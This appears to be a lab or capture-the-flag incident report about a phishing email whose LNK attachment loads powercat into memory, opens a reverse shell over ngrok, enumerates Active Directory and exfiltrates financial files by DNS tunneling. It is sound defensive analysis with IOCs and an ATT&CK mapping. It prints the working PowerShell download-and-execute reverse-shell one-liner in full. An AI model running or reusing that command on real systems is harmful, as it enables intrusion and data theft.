






### <span style="color:lightblue">TL;DR</span>
TryHatMe CEO Michael Ascot was targeted in a spear-phishing attack via a fraudulent email from `john@hatmakereurope.xyz`. The attachment `ImportantInvoice-February.zip` contained a malicious LNK file that, upon execution, downloaded and ran `powercat.ps1` in memory and established a reverse shell to an attacker-controlled ngrok endpoint. With interactive access to the host, the attacker enumerated the Active Directory environment using PowerView, mounted a financial records network share, staged sensitive files locally, and exfiltrated them via DNS tunneling to avoid detection. The incident is a textbook example of a living-off-the-land attack chain combining social engineering, in-memory execution, legitimate tooling abuse, and covert exfiltration over DNS.

### <span style="color:lightblue">Investigation</span>

#### <span style="color:lightblue">Initial Access</span>
At 07:36:53, CEO Michael Ascot (`michael.ascot@tryhatme.com`, host `win-3450`) received an inbound email from `john@hatmakereurope.xyz`. The sender domain was registered to impersonate a legitimate hat industry business and had no prior relationship with TryHatMe. The email subject read "FINAL NOTICE: Overdue Payment - Account Suspension Imminent" and used urgency language threatening legal action within 24 hours — a classic fear-based social engineering lure targeting a C-level executive.



The attachment was `ImportantInvoice-Febrary.zip` (SHA-256: `145BB70ABD0CC625F4A7ADD8CFB08982C39C4573470C8B87DB41D755BD2F9EA0`). The archive contained a Windows shortcut file `invioce.pdf.lnk` masquerading as a PDF document. The LNK file embedded the following malicious command:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell
```

Upon execution, PowerShell downloaded and ran `powercat.ps1` directly in memory — a PowerShell implementation of Netcat — and established a reverse shell back to the attacker's ngrok tunnel at `2.tcp.ngrok.io:19282`. Because the payload executed entirely in memory, no binary was written to disk at this stage, reducing the likelihood of AV detection.

#### <span style="color:lightblue">Active Directory Enumeration</span>
At 07:57:14, a temporary script `__PSScriptPolicyTest_hnpvwg1v.3mr.ps1` was created on the compromised host, indicating the attacker was probing PowerShell execution policy restrictions. At 08:32:23, `PowerView.ps1` was downloaded and executed. PowerView is a well-known PowerShell toolkit for Active Directory reconnaissance, used to enumerate domain users, groups, and trust relationships. SIEM logs confirmed domain enumeration activity originating from `win-3450` during this window.


#### <span style="color:lightblue">Network Share Mounting and File Staging</span>
At 08:01:05, the attacker created a staging directory at `C:\Users\michael.ascot\Downloads\exfiltration`. Using `net.exe`, the network share `\\FILESRV-01\SSF-FinancialRecords` was mounted as local drive `Z:`. The attacker then used `Robocopy.exe` to copy the contents of the share into the local staging directory. The exfiltrated files included `InvestorPresentation2023.pptx` and `ClientPortfolioSummary.xlsx`

#### <span style="color:lightblue">Exfiltration</span>
At 08:01:34, the network share connection was disconnected via `net.exe use Z: /delete` to remove evidence of the mount. At 08:35:34, the staged files were compressed into `exfilt8me.zip`. The archive was then base64-encoded and exfiltrated via DNS tunneling — the encoded data was split into 30-character chunks and transmitted as subdomains in a series of `nslookup.exe` queries launched from PowerShell, effectively bypassing network-layer data loss prevention controls that do not inspect DNS traffic.



### <span style="color:lightblue">IOCs</span>

**Email**  
\- Sender domain: `hatmakereurope.xyz`  
\- Attachment: `ImportantInvoice-February.zip` — `145BB70ABD0CC625F4A7ADD8CFB08982C39C4573470C8B87DB41D755BD2F9EA0`  

**Files**  
\- `invoice.pdf.lnk` — LNK phishing stager  
\- `exfilt8me.zip` — exfiltration archive — `50E5BF8361DF2442546F21E08B1561273F4CCC610258F622AC1A4B8EBF0A0386`  

**Network**  
\- `raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1` — payload delivery  
\- `2.tcp.ngrok.io:19282` — C2 reverse shell  

**Host**  
\- Compromised host: `win-3450` (`michael.ascot@tryhatme.com`)  
\- Targeted share: `\\FILESRV-01\SSF-FinancialRecords`  

### <span style="color:lightblue">MITRE ATT&CK</span>

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 |
| Execution | User Execution: Malicious File (LNK) | T1204.002 |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 |
| Execution | System Binary Proxy Execution: Mshta / PowerShell in-memory | T1218 |
| Command and Control | Application Layer Protocol: Web Protocols (ngrok) | T1071.001 |
| Discovery | Account Discovery: Domain Account | T1087.002 |
| Discovery | Domain Trust Discovery (PowerView) | T1482 |
| Collection | Data from Network Shared Drive | T1039 |
| Exfiltration | Exfiltration Over Alternative Protocol: DNS | T1048.003 |
| Defense Evasion | Obfuscated Files or Information (base64 encoding) | T1027 |
| Defense Evasion | Indicator Removal: Network Share Connection Removal | T1070 |